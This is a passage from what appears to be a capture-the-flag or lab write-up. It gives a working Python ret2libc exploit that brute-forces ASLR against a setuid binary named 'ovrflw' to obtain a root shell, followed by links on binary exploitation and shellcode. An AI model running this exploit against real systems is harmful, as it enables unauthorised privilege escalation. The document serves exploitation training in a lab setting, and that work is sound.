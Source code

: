 Due to the ASLR, we have to bruteforce to let the program run our exploitcode. Just use the script below:

```python
import struct, subprocess

libcBase = 0xb75eb000
systemOffset = 0x00040310
binShOffset = 0x00162bac

libcAddress = struct.pack("<I", libcBase+systemOffset)
exitAddress = struct.pack("<I", 0xd34db33f)
binShAddress = struct.pack("<I", libcBase+binShOffset)

payload = "\x90" * 112
payload += libcAddress
payload += exitAddress
payload += binShAddress

i = 0

while True:
    i += 1
    if i%10 == 0:
        print "Attempts: " + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])

```

After you get the root shell, the script will get blocked until you release it.

ROOTED!

# Suggests to read

- https://0xrick.github.io/binary-exploitation/ 这个系列的 1、6、5 三篇必读！
- http://shell-storm.org/shellcode/  Shellcode 集合
- You may need 'gdb-peda'
- https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/  Practical example
